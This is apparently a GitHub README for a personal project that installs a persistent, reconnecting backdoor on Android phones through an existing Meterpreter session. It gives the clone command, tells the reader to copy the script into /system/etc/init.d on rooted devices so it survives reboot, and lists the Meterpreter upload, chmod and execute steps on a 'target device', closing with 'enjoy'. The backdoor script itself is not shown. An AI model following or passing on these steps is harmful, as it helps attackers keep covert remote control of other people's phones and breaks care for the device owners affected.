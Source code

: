 # My persistant android backdoor

## Installation
```
git clone https://github.com/derickmachaa/android-persistant.sh/
```
## Description
This scripts creates a persistent reconnecting backdoor on android phones  
when run this script is active until reboot on non-rooted devices
To make it persistent on reboot  
copy the persistant.sh in the /system/etc/init.d folder #N.B this requires root permission on device
## Implementation
This script is implemented using  metersploit
## Requirements
a running meterpreter session on target device
## Usage
upload the script in the device,execute and enjoy

Assume this is our meterpreter session  
```bash
meterpreter> upload persistent.sh  
meterpreter> shell   
chmod 755 persistent.sh  
./persistent.sh  
```

##Enjoy!

